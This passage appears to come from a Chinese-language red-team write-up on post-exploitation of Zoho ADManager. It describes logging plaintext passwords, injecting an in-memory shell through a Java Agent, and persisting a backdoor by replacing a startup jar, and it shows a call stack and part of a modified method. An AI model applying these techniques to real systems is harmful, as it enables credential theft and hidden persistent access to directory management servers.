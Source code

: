   
至此，成功实现了明文密码记录功能  
  
成功开始记录返回如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwajkISTtd3HCFI29xO1SicPxQtvjsJrA2BQGjFdxibtJJiaiakU2Y1d911g/640?wx_fmt=png "")  
  
获取记录的明文密码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwEmMZeEZXlpwXdbf8nyXZ8icCXBWHQ8naL3R2Jg7xIMX7fBVzib5fB0aQ/640?wx_fmt=png "")  
  
**注入后门及持久化**  
  
运行时注入  
  
Zoho ADmanager并无jsp等支持动态解析文件，也无动态配置插件热加载功能，所以想要运行时注入后门逻辑，只能通过Java Agent技术动态修改已加载或者未加载的类，利用了这一特性使其动态修改特定类的特定方法，将我们的恶意后门逻辑添加到运行内存中  
  
启动后加载 agent 通过新的代理操作来实现：agentmain  
  
成功在内存中注入shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwa30TFTtDnETx2WHUPK30Eqh8UXJEk9EibDBYLiaTPlAOq5E2VfDoH7GQ/640?wx_fmt=png "")  
  
持久化后门留存  
  
通过Java Agent的方式作为运行时后门注入的解决方案，作为长期后门留存最好做到避免在文件系统新增恶意文件。  
  
我们ADManager的启动入口方法为  
```
com.adventnet.start.ProductTrayIcon#startAndRun，分析其启动调用栈
executeProgram:20, StartWebClient (com.adventnet.sym.adsm.start)
executeClass:165, ProductStarter (com.adventnet.start)
executeProcess:143, ProductStarter (com.adventnet.start)
startAndRun:82, ProductTrayIcon (com.adventnet.start)
main:236, ProductTrayIcon (com.adventnet.start)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
run:290, WrapperSimpleApp (org.tanukisoftware.wrapper)
run:748, Thread (java.lang)
```  
  
  
ADmanager每次启动时都会调用默认浏览器去访问登陆页面，com.adventnet.sym.adsm.start.StartWebClient#executeProgram  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwZnoxlckc7XGB6CoQ2e4TT5icKmhibFWUc0BB9ibv4BugicEGQR2SiaAAFyA/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SHI5wib3tvAMo28mYicMzfo0libJQxxkiabwe7LQACXNAkszFY72v8ILQYcEsDFNCwveCqJdnsXcLnTkUWxp9eP8Lw/640?wx_fmt=png "")  
  
选择修改executeProgram注入后门逻辑是很完美的位置，首先启动时注入后门符合注入时间点，其次应用整体功能已启动完毕，注入逻辑中需要的上下文context已经初始化完毕。  
  
综上所述，所以持久化的方式也就是替换com.adventnet.sym.adsm.start.StartWebClient#executeProgram所在的jar包AdventnetADSMStartUp.jar，  
  
修改后的executeProgram方法如下  
```
public void executeProgram(Properties additionalParams, String[] args) {
String confFileName = (String)additionalParams.get("client_startup_settings_filename");
if (confFileName != null) {
try {
Properties props = StartupUtil.getProperties(confFileName);
String launchClient = props.getProperty("LAUNCH_BROWSER_CLIENT");
if (launchClient != null && launchClient.equalsIgnoreCase("false")) {
props.setProperty("LAUNCH_BROWSER_CLIENT", "true");
StartupUtil.storeProperties(props, confFileName);
return;
}
} catch (Exception var12) {
```